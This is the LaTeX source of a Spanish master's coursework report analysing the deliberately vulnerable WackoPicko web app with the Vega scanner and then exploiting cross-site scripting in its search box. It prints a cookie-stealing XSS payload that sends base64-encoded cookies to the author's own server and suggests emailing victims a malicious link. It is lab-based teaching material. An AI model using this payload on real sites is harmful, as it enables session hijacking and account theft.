\documentclass[12pt,twoside]{article}

% La extensión total de la memoria deberá ser de un máximo de 50 páginas (excluidos resumen, índice y posibles anexos).

% Según las recomendaciones de estilo, el formato de la memoria se ajustará a lo siguiente:
% ? Formato del papel: DIN A4.
% ? Impresión a dos caras.
% ? Márgenes: superior e inferior, 2.5 cm. Márgenes laterales: páginas impares, izquierdo 4 cm y derecho 2 cm; páginas % pares, izquierdo 2 cm y derecho 4 cm.
% ? Tipo de letra: Times New Roman de 12 puntos.
% ? Interlineado: 1.5 líneas.
% ? Alineación: justificación completa.
% ? Sangrado de párrafo: 0.5 cm la primera línea de cada párrafo. No se
%pondrá espacio entre párrafos.
% ? Las páginas deberán ir numeradas en números arábigos.

% Teniendo en cuenta las indicaciones previas, definimos el estilo en LaTeX:

% Indicaciones para el idioma:
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[spanish]{babel}
\usepackage{float}

% Adaptación de itemize y enumerate a los usos tipograficos españoles:
\let\layoutspanish\relax
\addto\captionsspanish{\def\tablename{Tabla}} % para que escriba "Tabla" en lugar de "Cuadro"
\unaccentedoperators  % para que no acentúe los operadores

% Área de impresión de una página:
\usepackage[a4paper]{geometry}
  \geometry{hmargin={2.5cm,2.5cm},height=22cm}

% Formato de algunas distancias:
\renewcommand{\baselinestretch}{1.2}    % separación entre líneas de un mismo párrafo
\setlength{\partopsep}{0pt}
\setlength{\itemsep}{0pt}
\setlength{\topsep}{0pt}
\setlength{\parsep}{0pt}
\setlength{\parskip}{0.25\baselineskip}   % separación entre párrafos

\renewcommand{\textfraction}{0.1}   % mínima fracción de la página para el texto
\renewcommand{\topfraction}{1}      % máxima fracción de la página para objetos flotantes en la parte superior
\renewcommand{\bottomfraction}{1}
\renewcommand{\floatpagefraction}{1}

\setcounter{totalnumber}{5}
\setcounter{topnumber}{3}
\setcounter{bottomnumber}{2}

% Adaptación de las "caption" de los entorns "figure" y "table":
\usepackage{caption}
\setcaptionwidth{\textwidth}
\addtolength{\captionwidth}{-2\parindent}
\captionsetup{margin=\leftmargini,%
  width=\captionwidth,%
  labelfont={up,bf},%
  font={small,sl},%
  %indention={\captionindent
}

% Indentación del primer párrafo de una sección:
\usepackage{indentfirst}

% Definición del color grisclaro en la salida PDF:
\usepackage[pdftex]{color}

% Gráficos:
\usepackage[pdftex]{graphicx}

% Paquetes recomendados para la inclusión de fórmulas matemáticas:
\usepackage{amsmath}
\allowdisplaybreaks  % para que pueda partir fórmulas que ocupan más de una línea, necesita el paquete anterior
\usepackage{amssymb} % para cargar algunos símbolos como \blacksquare y \square
\usepackage{amsfonts} % para cargar algunas fuentes en estilo matemático
\usepackage{enumerate}
% Teoremas (se pueden definir todos los que se necesiten):


\newtheorem{theorem}{Teorema}[section]
\newtheorem{proposition}[theorem]{Proposición}
\newtheorem{definition}[theorem]{Definición}
\newtheorem{lemma}[theorem]{Lema}
\newtheorem{corollary}[theorem]{Corolario}
\newtheorem{example}[theorem]{Ejemplo}
\newtheorem{app}[theorem]{Aplicación}
\newtheorem{remark}[theorem]{Observación}
\newtheorem{agrad}[theorem]{Agradecimiento}
\newtheorem{algo}[theorem]{Algoritmo}
\newtheorem{axiom}[theorem]{Axioma}
\newtheorem{case}[theorem]{Caso}
\newtheorem{conclu}[theorem]{Conclusión}
\newtheorem{conjectura}[theorem]{Conjetura}
\newtheorem{notac}[theorem]{Notación}
\newtheorem{soluc}[theorem]{Solución}
\newtheorem{summary}[theorem]{Sumario}

\newtheorem{proof}[theorem]{Demostración.}
\renewenvironment{proof}{\textbf{\emph{Demostración.}}} {\quad \hfill $\blacksquare$ \newline} % para que aparezca un cuadrado negro al acabar la demostración


% Definición de cabeceras y pies de página:

\usepackage{fancyhdr}                     % para definir distintos tipos de cabeceras y pies de página

\newcommand{\RunningAuthor}{Adán Avilés Cahill}
\newcommand{\Author}[1]{\renewcommand{\RunningAuthor}{#1}}
\renewcommand{\leftmark}{\RunningAuthor}

\newcommand{\RunningTitle}{Hacking Ético}
\newcommand{\Title}[1]{\renewcommand{\RunningTitle}{#1}}
\renewcommand{\rightmark}{\RunningTitle}


\pagestyle{fancy}
\fancyhf{}
\fancyhead[LO]{\small \slshape \leftmark}    % lo que aparece en la parte izquierda de la páginas impares
\fancyhead[RE]{\small \slshape \rightmark}   % lo que aparece en la parte derecha de las páginas pares
\fancyhead[RO,LE]{\small \slshape \thepage}  % el número de página aparece en la parte exterior de la cabecera
\newcommand{\comment}[1]{}
\renewcommand{\headrulewidth}{0.6pt}         % grueso de la línea horizontal por debajo de la cabecera de la página
\renewcommand{\footrulewidth}{0pt}           % grueso de la línea horizontal por encima del pie de página
                                             % en este caso está vacío
\setlength{\headheight}{1.5\headheight}      % aumenta la altura de la cabecera en una parte y media

\fancypagestyle{plain}{%                     % redefinición del estilo de página 'plain'
  \fancyhf{}                                 % limpia todas las cabeceras y pies de página
  \setlength{\headwidth}{\textwidth}
  \fancyfoot[C]{\small \slshape \thepage}    % excepto el centro del pie de página
  \renewcommand{\headrulewidth}{0pt}
  \renewcommand{\footrulewidth}{0pt}
  }

% Instrucciones que se usan frecuentemente
\newcommand{\abs}[1]{\ensuremath{|#1|}}
\newcommand{\norm}[1]{\left\lVert#1\right\rVert} %norma
\newcommand{\normd}[1]{\left\lVert#1\right\rVert_{2}} %norma
\newcommand{\hil}{\mathcal{H} }
\newcommand{\prodes}[2]{\langle #1, #2 \rangle }
\newcommand{\suc}{\{x_n\}_{n=1}^{\infty}}
\newcommand{\sumi}[2]{\sum_{#1}^{#2}}
\newcommand{\luno}{L^1(\mathbb{R})}
\newcommand{\ldos}{L^2(\mathbb{R})}
\newcommand{\tf}[3]{\dfrac{1}{\sqrt{2 \pi}} \int_{-\infty}^{\infty} #1 e^{-iw#2}d#3}
\newcommand{\erre}{\mathbb{R}}
\newcommand{\intif}{ \int_{-\infty}^{\infty}}
\newcommand{\cdos}{\mathcal{C}_{00}^{2} (\mathbb{R}) }
\newcommand{\tfd}{\mathcal{F}}

% Datos del trabajo y autor:
\title{Práctica Hacking Ético}
\author{Adán Avilés Cahill\\*[1em]
\begin{minipage}{0.75\textwidth}
\footnotesize \itshape
\begin{center}
IMF BUSINESS SCHOOL\\
Máster en Ciberseguridad
\end{center}
\end{minipage}
}
\date{Junio 2014}

% Para incluir paginas de otro pdf (por ejemplo, la de la portada):
\usepackage{pdfpages}

\setlength{\abovedisplayskip}{5pt}
\setlength{\belowdisplayskip}{5pt}

\pagestyle{fancy}
%----------------------------------------------------------------------------------
%-                                  DOCUMENT START                                -
%----------------------------------------------------------------------------------
\begin{document}
\begin{figure}[t]
 \begin{picture}(140,50) \put(140,0){
\includegraphics[width=60mm]{./imagenes/logo-imf-alta}} \end{picture}
\end{figure}

\title{Desarrollo Seguro}
\author{Adán Avilés}
\date{Octubre 2021}
\maketitle


% A continuación, se incluirá el índice del trabajo y, seguidamente, se desarrollará la memoria.
\newpage
\tableofcontents
\newpage

% -------------------------------------------------% -------------------------------------------------
% -------------------------------------------------% -------------------------------------------------
% -------------------------------------------------% -------------------------------------------------
\section{Presentación del problema}
Este trabajo es el proyecto final del Módulo 3, \textbf{Desarrollo Seguro}, del máster en Ciberseguridad de IMF Bussines School. Consiste en un análisis de la aplicación web vulnerable \textbf{WackoPicko}.

Además de identificar y confirmar las vulnerabilidades descubiertas por las herramientas de escaneo automático hemos de dar soluciones para estas modificando el código de la página web. Por último se solicita una serie de Buenas Prácticas a implementar

% -------------------------------------------------% -------------------------------------------------
% -------------------------------------------------% -------------------------------------------------
% -------------------------------------------------% -------------------------------------------------
% -------------------------------------------------% -------------------------------------------------
\section{Identificación de Vulnerabilidades}
Hemos de identificar en primer lugar la dirección IP de la máquina virtual.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.7]{./imagenes/netdiscover}
    \caption{Netdiscover para encontrar la IP}
\end{figure}
\textbf{Nota:} Las IP no coincidirán en todo momento, pues esta práctica se ha realizado en días distintos y en computadoras distintas. Además, a veces se ha usado un docker para correr la máquina en el localhost. Así me ha resultado más sencillo revisar su código. 

Podemos acceder a la IP de la página y ver que está corriendo la web en ella.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.35]{./imagenes/wackopicko}
    \caption{Screenshot de la página principal}
\end{figure}
% -------------------------------------------------% -------------------------------------------------
\subsection{Análisis con Vega}
Vega analizará todas las páginas visibles del servidor y su estructura, además de intentar diferentes intrusiones de forma automática.
Podremos instalar la aplicación para su ejecución. Su funcionamiento es muy sencillo, simplemente, accederemos a ella y le diremos la IP a escanear.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.35]{./imagenes/vega_1}
    \caption{Primera visión de Vega}
\end{figure}

Vega analiza y organiza las vulnerabilidades por grado de severidad, donde tenemos: alto, medio y bajo. Además de información. 
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.35]{./imagenes/vega_2}
    \caption{Vulnerabilidades en Vega}
\end{figure}

Una idea a tener en cuenta cuando usemos este tipo de herramientas, es que dejan la página llena de rastros.  Cuando lanzamos Vega, esta deja información residual en la web (comentarios, registro de usuarios genéricos...), así el dueño de la web puede ser alertado de nuestro posible ataque. Esto es importante, pues si somos los dueños de la web, podremos crear avisos por si se intentan crear usuarios o se comentan ciertos valores, como VEGA o query.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/comentarios_vega}
    \caption{Comentarios generados por Vega}
\end{figure}

%________________
%________________
\subsubsection{Riesgo alto}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.8]{./imagenes/riesgo_alto}
    \caption{Vulnerabilidades altas en Vega}
\end{figure}
%________________
%________________
\subsubsection{Riesgo medio}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.8]{./imagenes/riesgo_alto}
    \caption{Vulnerabilidades medias en Vega}
\end{figure}
%________________
%________________
\subsubsection{Riesgo bajo}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.8]{./imagenes/riesgo_bajo}
    \caption{Vulnerabilidades bajas en Vega}
\end{figure}
% -------------------------------------------------% -------------------------------------------------
% -------------------------------------------------% -------------------------------------------------
% -------------------------------------------------% -------------------------------------------------
% -------------------------------------------------% -------------------------------------------------
\newpage

\newpage
\section{Explotación de las vulnerabilidades.}
% -------------------------------------------------% -------------------------------------------------
\subsection{Cross Site Scripting.}
\subsubsection*{Explicación de la vulnerabilidad:}
Accedemos a la url que VEGA nos especifica para esta vulnerabilidad, que es en la búsqueda de imágenes. Probaremos con una búsqueda básica primero.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.35]{./imagenes/cuadro_busqueda_hola}
    \caption{Cuadro de búsqueda}
\end{figure}
Probemos insertando código, 
\begin{verbatim}
    <p>prueba_codigo</p>
\end{verbatim} 
y obtenemos que:
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.35]{./imagenes/cuadro_busqueda_prueba_codigo}
    \caption{Inserción de código}
\end{figure}
Podemos también, insertar código del tipo javascript, probaremos con
\begin{verbatim}
<script>alert(‘codigo_malicioso’)</script>
\end{verbatim}
y podemos ver que nos aparece por pantalla:
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.35]{./imagenes/cuadro_busqueda_prueba_codigo_malicioso}
    \caption{Inserción de código malicioso}
\end{figure}
Un ataque más complejo, sería utilizando un CookieStealer. 
Subiremos el código del cookiestealer a un servidor (en este caso nuestro local).
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{./imagenes/servidor_con_cookiestealer}
    \caption{Subimos el codigo a nuestro server}
\end{figure}
Podemos hacer, mediante un mail a cualquiera de los usuarios, que abra una URL maliciosa, donde inyectamos el código para poder sobar la cookie.

\begin{verbatim}
<script>http://192.168.150.128/cookiestealer.php?
c=encodeURIComponent(btoa(document.cookie)</script>
\end{verbatim}

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.35]{./imagenes/cookiesteal}
    \caption{Ejecución del robo de cookie}
\end{figure}
Y revisando el log.txt que genera, podemos encontrar la cookie robada.
\begin{figure}[H]
    \centering
